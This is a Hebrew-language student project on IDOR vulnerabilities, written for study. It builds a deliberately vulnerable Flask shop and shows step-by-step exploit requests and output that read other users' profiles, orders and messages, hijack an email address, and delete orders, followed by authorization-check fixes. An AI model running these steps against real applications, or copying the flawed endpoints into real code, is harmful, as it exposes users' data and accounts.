


<div dir="rtl" style="text-align: justify;">

# פרויקט גמר: חולשת IDOR – Insecure Direct Object Reference באפליקציית Web

**מסלול**: A – מחקר ומימוש מתקפה (POC)

**שם פרטי (שם משפחה)**: [יש להשלים]

**שם בית הספר**: [יש להשלים]

---

## 1. תיאור החולשה והרקע התאורטי

### 1.1 מהי חולשת IDOR?

חולשת **Insecure Direct Object Reference**, המכונה בקיצור **IDOR**, היא פגיעות אבטחה חמורה מסוג בקרת גישה (Access Control) המתרחשת באפליקציות Web. החולשה מתקיימת כאשר אפליקציה חושפת התייחסות ישירה לאובייקט פנימי – כגון רשומה במסד נתונים, קובץ במערכת הקבצים, או מפתח ראשי (Primary Key) – באמצעות פרמטר הנשלט על ידי המשתמש, ובה בעת נכשלת בביצוע בדיקת הרשאות (Authorization) מספקת כדי לוודא שהמשתמש המבקש אכן מורשה לגשת לאותו משאב. במילים פשוטות, התוקף יכול לשנות מזהה (ID) בכתובת ה-URL או בגוף בקשת ה-HTTP, ובכך לגשת למידע או לבצע פעולות על משאבים שאינם שייכים לו – ללא כל מנגנון שימנע זאת [1].

ארגון **OWASP (Open Web Application Security Project)**, הגוף המוביל בעולם בתחום אבטחת אפליקציות Web, מסווג את חולשת IDOR תחת הקטגוריה **A01:2021 – Broken Access Control**, אשר דורגה במקום **הראשון** ברשימת עשרת סיכוני האבטחה הקריטיים ביותר לאפליקציות Web (OWASP Top 10) [1]. הדירוג הגבוה הזה אינו מקרי – לפי נתוני OWASP, בעיות בקרת גישה נמצאו ב-94% מהאפליקציות שנבדקו, עם שיעור הופעה ממוצע של 3.81%, ועם למעלה מ-318,000 מופעים שדווחו במערך הנתונים שנאסף [1]. נתונים אלו מדגישים את השכיחות הגבוהה ביותר של הפגיעות ואת ההשפעה החמורה הפוטנציאלית שלה על ארגונים ומשתמשים כאחד.

בנוסף, בשנת 2023 פרסמה סוכנות הסייבר האמריקאית **CISA (Cybersecurity and Infrastructure Security Agency)** יחד עם סוכנויות סייבר מאוסטרליה, ביחד עם NSA ו-FBI, **ייעוץ אבטחה ייעודי** (Advisory AA23-208A) המתמקד ספציפית בחולשות IDOR, בשל השכיחות הגבוהה שלהן והנזק הרב שהן גורמות [2]. עובדה זו מעידה על כך שמדובר באיום ממשי ומשמעותי ברמה הלאומית והבינלאומית.

### 1.2 כיצד היא נוצרת?

חולשת IDOR נוצרת כתוצאה משילוב של שני גורמים מרכזיים הפועלים יחד:

**הגורם הראשון הוא חשיפת מזהים ישירים וניתנים לניחוש (Predictable Direct Object References)**. אפליקציות Web רבות משתמשות במזהים פנימיים של מסד הנתונים – לרוב מספרים שלמים רצים (Sequential Integers) כגון 1, 2, 3 – כפרמטרים בבקשות HTTP. מזהים אלו מופיעים ב-URL (למשל `https://example.com/api/user/123`), בפרמטרים של שאילתה (Query Parameters), בגוף הבקשה (Request Body), או אפילו בכותרות (Headers). העובדה שמזהים אלו הם רצים ופשוטים מאפשרת לתוקף לנחש בקלות מזהים של משאבים אחרים על ידי הגדלה או הקטנה של הערך.

**הגורם השני, והקריטי יותר, הוא היעדר בדיקות הרשאה בצד השרת (Missing Server-Side Authorization Checks)**. כאשר השרת מקבל בקשה עם מזהה אובייקט, הוא מבצע את הפעולה המבוקשת (קריאה, עדכון, מחיקה) מבלי לוודא שהמשתמש המאומת (Authenticated User) הוא אכן הבעלים של המשאב או שיש לו הרשאה מפורשת לגשת אליו. השרת מסתמך באופן עיוור על המזהה שנשלח מהלקוח, מתוך הנחה שגויה שאם המשתמש מחובר למערכת (Authenticated), הוא בהכרח מורשה (Authorized) לגשת לכל משאב שהוא מבקש.

הטעות הבסיסית של המפתחים היא בלבול בין **אימות (Authentication)** לבין **הרשאה (Authorization)**. אימות עונה על השאלה "מי אתה?", בעוד שהרשאה עונה על השאלה "מה מותר לך לעשות?". אפליקציה פגיעה ל-IDOR עשויה לבצע אימות תקין (לוודא שהמשתמש מחובר), אך להתעלם לחלוטין מבדיקת ההרשאה (לוודא שהמשתמש רשאי לגשת למשאב הספציפי).

הטבלה הבאה מסכמת את ההבדל המהותי בין אימות להרשאה:

| היבט | אימות (Authentication) | הרשאה (Authorization) |
|---|---|---|
| **שאלה מרכזית** | מי אתה? | מה מותר לך? |
| **מטרה** | זיהוי המשתמש | קביעת הרשאות גישה |
| **מנגנון** | שם משתמש + סיסמה, Token | בדיקת בעלות, תפקיד, מדיניות |
| **נקודת כשל ב-IDOR** | לרוב תקין | חסר או לקוי |
| **דוגמה** | "המשתמש הוא alice (ID:1)" | "האם alice רשאית לגשת לפרופיל של bob (ID:2)?" |

### 1.3 באיזה הקשר היא מופיעה במערכות Web?

חולשות IDOR נפוצות במיוחד בפונקציונליות שבה האפליקציה צריכה לגשת למשאבים ספציפיים למשתמש. למעשה, כמעט כל אפליקציית Web שמנהלת משאבים פרטיים ומשתמשת במזהים ישירים חשופה פוטנציאלית לחולשה זו. ההקשרים הנפוצים ביותר כוללים:

**פרופילי משתמשים ומידע אישי** – אפליקציות המאפשרות למשתמשים לצפות ולערוך את הפרופיל שלהם דרך URL כגון `/profile?id=123`. תוקף יכול לשנות את המזהה ולגשת לפרטים אישיים של משתמשים אחרים, כולל כתובות אימייל, מספרי טלפון, וכתובות מגורים.

**מערכות מסחר אלקטרוני והזמנות** – חנויות מקוונות שבהן ניתן לצפות בהזמנות דרך `/orders?user_id=456`. תוקף יכול לגשת להיסטוריית הרכישות של משתמשים אחרים, כולל פרטי משלוח ומידע חלקי על אמצעי תשלום.

**הודעות פרטיות ותקשורת** – מערכות הודעות שבהן כל הודעה נגישה דרך `/messages/789`. תוקף יכול לקרוא הודעות פרטיות שאינן מיועדות לו.

**קבצים ומסמכים** – מערכות ניהול מסמכים שבהן קבצים נגישים דרך `/documents/download?file_id=101`. תוקף יכול להוריד חשבוניות, דוחות, או מסמכים רגישים של משתמשים אחרים.

**ממשקי API (Application Programming Interfaces)** – ממשקי REST API המשמשים אפליקציות מובייל או SPA (Single Page Applications), שבהם המזהים מועברים בבקשות HTTP. חולשות IDOR ב-API הן נפוצות במיוחד מכיוון שלעיתים קרובות מפתחים מניחים שהממשק אינו נגיש ישירות למשתמשים [4].

### 1.4 מה תוקף יכול להשיג באמצעותה?

ההשפעה של ניצול מוצלח של חולשת IDOR יכולה להיות הרסנית ומשתנה בהתאם לאופי המשאב שנחשף ולסוג הפעולות שהאפליקציה מאפשרת. ניתן לסווג את ההשפעה לפי שלושת עמודי אבטחת המידע (CIA Triad):

**פגיעה בסודיות (Confidentiality)** – תוקף יכול לגשת ולקרוא נתונים פרטיים של משתמשים אחרים, כגון פרטים אישיים מזהים (PII), מידע פיננסי (פרטי כרטיסי אשראי, היסטוריית עסקאות), הודעות פרטיות, ומסמכים רגישים. מקרה מפורסם הוא הפרצה ב-**First American Financial Corp** בשנת 2019, שבה חולשת IDOR חשפה כ-885 מיליון רשומות הכוללות מסמכי נדל"ן, מספרי ביטוח לאומי, ופרטי חשבונות בנק [3]. מקרה נוסף הוא הפרצה ב-**AT&T** שבה נחשפו כתובות אימייל של 114,000 משתמשי iPad [2].

**פגיעה בשלמות (Integrity)** – תוקף יכול לשנות או למחוק נתונים של משתמשים אחרים. לדוגמה, שינוי כתובת האימייל בפרופיל של משתמש אחר יכול להוביל ל**השתלטות מלאה על חשבון (Account Takeover)** באמצעות מנגנון "שכחתי סיסמה". תוקף יכול גם למחוק הזמנות, לשנות פרטי משלוח, או לבצע כל פעולה אחרת שהאפליקציה מאפשרת.

**פגיעה בזמינות (Availability)** – תוקף יכול למחוק משאבים באופן מאסיבי, כגון מחיקת כל ההזמנות במערכת, מחיקת חשבונות משתמשים, או מחיקת קבצים חיוניים, ובכך לגרום לשיבוש משמעותי בפעילות העסקית.

**הסלמת הרשאות (Privilege Escalation)** – במקרים מסוימים, תוקף יכול לגשת לפונקציות ניהוליות על ידי ניחוש מזהה של חשבון מנהל מערכת (Admin), ובכך להשתלט על המערכת כולה.

הטבלה הבאה מסכמת את רמות ההשפעה:

| ממד אבטחה | רמת השפעה | דוגמה |
|---|---|---|
| **סודיות (Confidentiality)** | גבוהה | חשיפת פרטים אישיים, מידע פיננסי, הודעות פרטיות |
| **שלמות (Integrity)** | גבוהה | שינוי פרופילים, השתלטות על חשבונות, שינוי הזמנות |
| **זמינות (Availability)** | בינונית | מחיקת הזמנות, מחיקת נתונים, שיבוש שירות |
| **ציון CVSS משוער** | **8.6 (גבוה)** | תלוי בהקשר הספציפי של האפליקציה |

---

## 2. סביבת העבודה

לצורך הדגמת חולשת IDOR וניצולה בסביבה מבוקרת ובטוחה, הוקמה סביבת בדיקה (Lab Environment) המדמה אפליקציית Web אמיתית. הסביבה כוללת שלושה רכיבים עיקריים: אפליקציה פגיעה בכוונה תחילה, סקריפט תקיפה אוטומטי, ואפליקציה מתוקנת המדגימה את פתרונות ההגנה. כל הרכיבים פותחו באופן עצמאי לצורך פרויקט זה.

### 2.1 טכנולוגיות צד-שרת

הטבלה הבאה מפרטת את הטכנולוגיות ששימשו לפיתוח צד השרת של האפליקציה:

| טכנולוגיה | גרסה | תפקיד | סיבת הבחירה |
|---|---|---|---|
| **Python** | 3.11 | שפת תכנות ראשית | פשטות, קהילה רחבה, ספריות עשירות לפיתוח Web ואבטחה |
| **Flask** | 3.x | שלד תוכנה (Web Framework) | מיקרו-פריימוורק קל משקל המאפשר שליטה מלאה ברכיבי האפליקציה |
| **SQLite** | 3 | מסד נתונים יחסי | מובנה בפייתון, אינו דורש שרת נפרד, אידיאלי לסביבת הדגמה |

**Python 3** נבחרה כשפת התכנות העיקרית בשל פשטותה הסינטקטית, הקהילה הרחבה שלה, והספריות המצוינות הזמינות עבורה לפיתוח Web ולביצוע בדיקות אבטחה. **Flask** הוא מיקרו-שלד תוכנה (Micro-framework) פופולרי לפיתוח אפליקציות Web בפייתון, שנבחר בשל היותו קל משקל וגמיש, ומאפשר להקים שרת Web פונקציונלי במהירות תוך שליטה מלאה על כל רכיבי האפליקציה – מה שהופך אותו לאידיאלי להדגמת נקודות תורפה ספציפיות. **SQLite 3** הוא מנוע מסד נתונים יחסי קל משקל, שאינו דורש שרת נפרד ומאחסן את כל מסד הנתונים בקובץ יחיד, מה שמפשט את הגדרת סביבת ההדגמה.

### 2.2 כלי תקיפה וניתוח

הטבלה הבאה מפרטת את הכלים ששימשו לביצוע ההדגמה:

| כלי | תפקיד | שימוש בפרויקט |
|---|---|---|
| **Python `requests`** | ספריית HTTP | שליחת בקשות HTTP זדוניות בסקריפט התקיפה |
| **Flask Session** | ניהול הפעלות | שמירת מצב אימות בין בקשות |
| **Mermaid.js** | יצירת דיאגרמות | תרשימי זרימת תקיפה ומנגנוני הגנה |

סקריפט הניצול (Exploit) נכתב אף הוא בפייתון תוך שימוש בספריית **`requests`**, שהיא הסטנדרט דה-פקטו בפייתון לביצוע בקשות HTTP. הספרייה שימשה כדי להתחבר לאפליקציה הפגיעה, לבצע אימות, ולשלוח בקשות HTTP זדוניות המנצלות את חולשת ה-IDOR על ידי שינוי שיטתי של מזהים ב-URL ובגוף הבקשה. בנוסף, נעשה שימוש בכלי **Mermaid.js** ליצירת דיאגרמות ותרשימי זרימה המתארים את תהליך התקיפה ואת מנגנוני ההגנה.

---

## 3. מימוש והדגמת המתקפה (POC)

### 3.1 תיאור ה-POC

כדי להדגים את חולשת ה-IDOR באופן מעשי ומקיף, פותחה אפליקציית Web בשם **"SecureShop"** – אפליקציה המדמה חנות מקוונת בסיסית. האפליקציה כוללת מערכת ניהול משתמשים, היסטוריית הזמנות, ומערכת הודעות פרטיות. האפליקציה פותחה **בכוונה תחילה** עם מספר חולשות IDOR נפוצות, כדי להמחיש את וקטורי התקיפה השונים ואת השפעתם הפוטנציאלית.

האפליקציה מנהלת שלושה סוגי אובייקטים עיקריים, כמפורט בטבלה הבאה:

| אובייקט | שדות רגישים | נקודת קצה פגיעה (API Endpoint) |
|---|---|---|
| **משתמשים (Users)** | שם, אימייל, טלפון, תפקיד | `GET /api/user/{id}`, `PUT /api/user/{id}` |
| **הזמנות (Orders)** | מוצר, מחיר, כתובת, כרטיס אשראי | `GET /api/orders/{user_id}`, `DELETE /api/orders/{id}` |
| **הודעות (Messages)** | שולח, נמען, נושא, תוכן | `GET /api/messages/{id}` |

הגישה לכל אחד מהאובייקטים הללו מתבצעת באמצעות **מזהים מספריים רצים** (למשל `user_id=1`, `order_id=3`). נקודות התורפה המרכזיות טמונות בנקודות הקצה של ה-API, אשר בודקות רק שהמשתמש **מאומת** (מחובר למערכת), אך **אינן מוודאות** שהמשתמש המאומת הוא אכן הבעלים של המשאב המבוקש.

להלן דוגמה לקוד הפגיע מתוך האפליקציה, המדגימה את היעדר בדיקת ההרשאה:

```python
# VULNERABLE API: Get user profile by ID
@app.route('/api/user/<int:user_id>', methods=['GET'])
def api_get_user(user_id):
    if 'user_id' not in session:
        return jsonify({'error': 'Unauthorized'}), 401

    conn = get_db()
    user = conn.execute(
        'SELECT id, username, email, full_name, phone, role FROM users WHERE id = ?',
        (user_id,)
    ).fetchone()
    conn.close()

    if not user:
        return jsonify({'error': 'User not found'}), 404

    # VULNERABILITY: No check if requesting user is authorized to view this profile
    # Missing: if session['user_id'] != user_id: return 403
    return jsonify(dict(user))
```

כפי שניתן לראות בקוד, השרת בודק רק שקיים `user_id` ב-Session (כלומר, שהמשתמש מחובר), אך **אינו משווה** את ה-`user_id` מה-Session ל-`user_id` שהתבקש בבקשה. זוהי בדיוק הנקודה שבה החולשה מתקיימת.

### 3.2 שלבי הניצול (המתקפה)

כדי להדגים את הניצול באופן מובנה ומקיף, נכתב סקריפט תקיפה אוטומטי (`exploit/idor_exploit.py`) המדמה תוקף – המשתמשת **"alice"** עם `user_id=1` – המנצל את החולשות כדי לגשת למידע של משתמשים אחרים, לשנות אותו, ואף למחוק אותו. הסקריפט מבצע חמישה שלבי תקיפה נפרדים, כל אחד מדגים וקטור תקיפה שונה.

#### שלב 0: אימות (Authentication)

התוקף מתחבר למערכת כמשתמש לגיטימי באמצעות שם משתמש וסיסמה. שלב זה הוא לגיטימי לחלוטין – התוקף משתמש בחשבון שלו.

```python
# Legitimate authentication
session = requests.Session()
response = session.post(f"{BASE_URL}/login", data={
    "username": "alice",
    "password": "password123"
})
# Result: Authenticated successfully as 'alice' (User ID: 1)
```

#### שלב 1: איסוף מידע על משתמשים (Horizontal IDOR – Profile Enumeration)

לאחר ההתחברות, התוקף מנסה לגשת לפרופילים של משתמשים אחרים על ידי שינוי שיטתי של המזהה בבקשת ה-API. מכיוון שהמזהים הם מספרים רצים, התוקף פשוט מריץ לולאה שמגדילה את המזהה ב-1 בכל פעם.

```python
# Legitimate request (own profile):
GET /api/user/1  →  200 OK (Alice's data)

# Malicious requests (other users' profiles):
GET /api/user/2  →  200 OK (Bob's data - LEAKED!)
GET /api/user/3  →  200 OK (Charlie's data - LEAKED!)
GET /api/user/4  →  200 OK (David's data - LEAKED!)
```

**תוצאה בפועל של הניצול** – התוקף הצליח לדלות את פרטיהם של **כל 4 המשתמשים** במערכת:

```json
{
  "id": 2,
  "username": "bob",
  "email": "bob@example.com",
  "full_name": "Bob Levi",
  "phone": "052-9876543",
  "role": "user"
}
```

**השפעה**: חשיפת מידע אישי מזהה (PII) של כל המשתמשים במערכת – שמות מלאים, כתובות אימייל, מספרי טלפון, ותפקידים.

#### שלב 2: גניבת נתוני הזמנות (Horizontal IDOR – Order Data Theft)

באופן דומה, התוקף מנצל חולשת IDOR בנקודת הקצה של ההזמנות כדי לצפות בהיסטוריית ההזמנות של משתמשים אחרים, כולל פרטי משלוח ופרטי תשלום חלקיים.

```python
# Malicious request:
GET /api/orders/2  →  200 OK (Bob's orders - LEAKED!)
```

**תוצאה בפועל של הניצול** – התוקף הצליח לגשת ל-**12 הזמנות** מכלל המשתמשים:

```
User ID 1 (Alice): 2 orders
  Order #1: Laptop Dell XPS 15 | ₪5,499.99 | Address: Herzliya | Card: ****4532
  Order #2: Wireless Mouse     | ₪199.90   | Address: Herzliya | Card: ****4532

User ID 2 (Bob): 4 orders
  Order #3: iPhone 15 Pro      | ₪4,999.00 | Address: Tel Aviv  | Card: ****8821
  Order #4: AirPods Pro        | ₪899.00   | Address: Tel Aviv  | Card: ****8821
```

**השפעה**: חשיפת מידע פיננסי רגיש – היסטוריית רכישות, כתובות משלוח, ו-4 ספרות אחרונות של כרטיסי אשראי.

#### שלב 3: קריאת הודעות פרטיות (Horizontal IDOR – Message Reading)

התוקף מנצל חולשה המאפשרת לו לקרוא הודעות פרטיות שאינן מיועדות לו, על ידי ניחוש ושינוי מזהה ההודעה.

```python
# Malicious request:
GET /api/messages/5  →  200 OK (Admin message to David - LEAKED!)
```

**תוצאה בפועל של הניצול** – התוקף הצליח לקרוא **9 הודעות פרטיות**, כולל הודעות בין משתמשים אחרים והודעות מנהל:

```
Message #5: From Admin (ID:3) → To David (ID:4)
  Subject: Admin Notice
  Body: David, please update your profile information. - Admin
```

**השפעה**: חשיפת תקשורת פרטית בין משתמשים, כולל הודעות ניהוליות רגישות.

#### שלב 4: שינוי נתונים של משתמש אחר (Object-Level IDOR – Profile Modification)

החולשה חמורה יותר כאשר היא מאפשרת לא רק קריאה אלא גם **כתיבה**. התוקף שולח בקשת `PUT` לנקודת הקצה של עדכון הפרופיל, אך עם המזהה של משתמש אחר. הוא משנה את כתובת האימייל של הקורבן לכתובת שבשליטתו, מה שמאפשר לו להשתלט על החשבון באמצעות מנגנון "שכחתי סיסמה".

```python
# Malicious request:
PUT /api/user/2
Content-Type: application/json
{"email": "hacked_bob@evil.com", "phone": "000-0000000"}
```

**תוצאה בפועל של הניצול**:

```
[SUCCESS] Successfully modified Bob's profile!
[DATA] New email: hacked_bob@evil.com
[DATA] New phone: 000-0000000
```

**השפעה**: פוטנציאל להשתלטות מלאה על חשבון (Account Takeover) – התוקף שינה את האימייל של הקורבן ויכול כעת לאפס את הסיסמה.

#### שלב 5: מחיקת נתונים של משתמש אחר (Object-Level IDOR – Data Deletion)

לבסוף, התוקף מדגים כיצד ניתן לגרום נזק על ידי מחיקת נתונים. הוא שולח בקשת `DELETE` למחיקת הזמנה, אך משתמש במזהה של הזמנה השייכת למשתמש אחר.

```python
# Malicious request:
DELETE /api/orders/3  →  200 OK (Bob's order deleted!)
```

**תוצאה בפועל של הניצול**:

```
[INFO] Bob currently has 4 orders
[SUCCESS] Server response: Order 3 deleted successfully
[INFO] Bob now has 3 orders (one was deleted!)
```

**השפעה**: השמדת נתונים עסקיים – מחיקת הזמנות של משתמשים אחרים, שיבוש תהליכים עסקיים.

#### סיכום שלבי המתקפה

הטבלה הבאה מסכמת את כל שלבי המתקפה, סוג החולשה, והשפעתה:

| שלב | סוג IDOR | פעולה | Endpoint | תוצאה |
|---|---|---|---|---|
| 1 | Horizontal | קריאת פרופילים | `GET /api/user/{id}` | 4 פרופילים נחשפו |
| 2 | Horizontal | קריאת הזמנות | `GET /api/orders/{user_id}` | 12 הזמנות נחשפו |
| 3 | Horizontal | קריאת הודעות | `GET /api/messages/{id}` | 9 הודעות נחשפו |
| 4 | Object-Level | שינוי פרופיל | `PUT /api/user/{id}` | אימייל שונה (Account Takeover) |
| 5 | Object-Level | מחיקת הזמנה | `DELETE /api/orders/{id}` | הזמנה נמחקה |

### 3.3 דיאגרמת זרימת התקיפה

התרשים הבא ממחיש את זרימת התקיפה המלאה, החל משלב האימות הלגיטימי ועד לניצול חולשות ה-IDOR השונות. ניתן לראות בבירור כיצד השרת מגיב לבקשות זדוניות ללא כל בדיקת הרשאה, ומחזיר את המידע המבוקש לתוקף.



---

## 4. מנגנוני הגנה ומניעה

### 4.1 מדוע ההגנות הקיימות נכשלו?

באפליקציה הפגיעה, "ההגנה" היחידה שהייתה קיימת היא בדיקת **אימות (Authentication)** – כלומר, וידוא שקיים `user_id` ב-Session, מה שמעיד שהמשתמש מחובר למערכת. עם זאת, בדיקה זו אינה מספיקה כלל ועיקר. הכשל המרכזי נבע מ**היעדר מוחלט של בדיקות הרשאה (Authorization)** בכל נקודות הקצה הקריטיות של ה-API.

הקוד הפגיע מדגים את הבעיה בצורה ברורה:

```python
# VULNERABLE: Only checks authentication, NOT authorization
@app.route('/api/orders/<int:user_id>', methods=['GET'])
def api_get_orders(user_id):
    if 'user_id' not in session:          # ✓ Authentication check (OK)
        return jsonify({'error': 'Unauthorized'}), 401
    
    # ✗ Missing: Authorization check!
    # Should be: if session['user_id'] != user_id: return 403
    
    conn = get_db()
    orders = conn.execute(
        'SELECT * FROM orders WHERE user_id = ?',
        (user_id,)                         # Uses attacker-controlled input directly!
    ).fetchall()
```

השרת אמנם וידא שהבקשה מגיעה ממשתמש מאומת (בעל Session פעיל), אך הוא מעולם לא שאל את השאלה החשובה ביותר: **"האם המשתמש המחובר (alice, ID:1) רשאי לגשת להזמנות של משתמש אחר (bob, ID:2)?"**. הסתמכות עיוורת על המזהה שנשלח מהלקוח, ללא כל אימות מול ה-Session, היא שורש הבעיה.

### 4.2 כיצד ניתן למנוע את החולשה?

כדי למנוע את החולשה, יש ליישם מספר שכבות הגנה משלימות (Defense in Depth), כפי שהודגם באפליקציה המתוקנת (`fixed-app/app_secure.py`). להלן שלושת הפתרונות העיקריים שיושמו:

#### פתרון 1: אכיפת בקרת גישה ברמת האובייקט (Object-Level Authorization)

הפתרון הישיר והחשוב ביותר הוא לוודא שבכל פעם שמתבצעת גישה לאובייקט, השרת בודק אם למשתמש המאומת יש הרשאה לבצע את הפעולה על אותו אובייקט. ניתן לממש זאת באמצעות **Decorator** מרכזי שמבצע את הבדיקה באופן אחיד בכל נקודות הקצה:

```python
# SECURE: Centralized authorization decorator
def authorize_user(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        if 'user_id' not in session:
            return jsonify({'error': 'Authentication required'}), 401

        requested_user_id = kwargs.get('user_id')
        if requested_user_id and requested_user_id != session['user_id']:
            # Log the unauthorized access attempt
            logging.warning(
                f"IDOR ATTEMPT BLOCKED: User {session['user_id']} "
                f"tried to access resource of user {requested_user_id}"
            )
            return jsonify({'error': 'Forbidden'}), 403
        return f(*args, **kwargs)
    return decorated_function

# Usage:
@app.route('/api/user/<int:user_id>', methods=['GET'])
@login_required
@authorize_user  # This decorator enforces authorization
def api_get_user(user_id):
    # ... (safe to proceed - authorization verified)
```

#### פתרון 2: שימוש במזהים בלתי ניתנים לניחוש (UUID)

במקום לחשוף מזהים פנימיים וניתנים לניחוש (כמו 1, 2, 3), יש להשתמש ב-**UUID (Universally Unique Identifier)** – מזהים אקראיים באורך 128 ביט שאינם ניתנים לניחוש. גישה זו מקשה משמעותית על תוקף לנחש מזהים של משאבים אחרים, ומהווה שכבת הגנה נוספת. חשוב להדגיש שגם עם UUID, **יש לבצע בדיקות הרשאה** – UUID לבדו אינו מספיק כהגנה [5].

```python
# SECURE: Using UUID + ownership verification
@app.route('/api/orders/<order_uuid>', methods=['DELETE'])
@login_required
def api_delete_order(order_uuid):
    conn = get_db()
    # Verify BOTH the UUID AND the ownership
    order = conn.execute(
        'SELECT * FROM orders WHERE uuid = ? AND user_id = ?',
        (order_uuid, session['user_id'])  # Double verification!
    ).fetchone()

    if not order:
        logging.warning(f"IDOR ATTEMPT: User {session['user_id']} "
                       f"tried to delete order {order_uuid}")
        return jsonify({'error': 'Order not found or access denied'}), 403
    # ... (proceed with deletion)
```

#### פתרון 3: שימוש במשאבים מתוך ה-Session (Session-Based Resource Access)

במקרים רבים, אין כלל צורך להעביר את מזהה המשתמש ב-URL. אם המטרה היא לגשת למשאבים של המשתמש המחובר, יש להסתמך אך ורק על מזהה המשתמש השמור ב-Session בצד השרת. גישה זו מבטלת לחלוטין את האפשרות לניצול IDOR, מכיוון שהמשתמש אינו שולט במזהה.

```python
# SECURE: Query scoped to authenticated user from session
@app.route('/api/orders', methods=['GET'])
@login_required
def api_get_my_orders():
    conn = get_db()
    orders = conn.execute(
        'SELECT * FROM orders WHERE user_id = ?',
        (session['user_id'],)  # ID comes from secure session, NOT from user input
    ).fetchall()
    return jsonify([dict(order) for order in orders])
```

הטבלה הבאה משווה בין הגישה הפגיעה לגישה המאובטחת:

| היבט | אפליקציה פגיעה | אפליקציה מאובטחת |
|---|---|---|
| **מקור המזהה** | מהלקוח (URL/Body) | מה-Session בשרת |
| **בדיקת הרשאה** | אין | Decorator מרכזי |
| **סוג מזהה** | מספר רץ (1, 2, 3...) | UUID אקראי |
| **תיעוד ניסיונות** | אין | Logging מלא |
| **תגובה לגישה לא מורשית** | 200 OK + מידע | 403 Forbidden |

### 4.3 Best Practices רלוונטיים

מעבר לפתרונות הטכניים הספציפיים, יש לאמץ תהליכי פיתוח מאובטחים כחלק מתרבות הפיתוח בארגון. להלן הפרקטיקות המומלצות למניעת חולשות IDOR:

**עקרון Deny by Default** – יש להגדיר את מדיניות בקרת הגישה כך שכל גישה נדחית כברירת מחדל, ומתאפשרת רק אם ניתנה הרשאה מפורשת. גישה זו מבטיחה שגם אם נשכחה בדיקת הרשאה בנקודת קצה מסוימת, הגישה תיחסם.

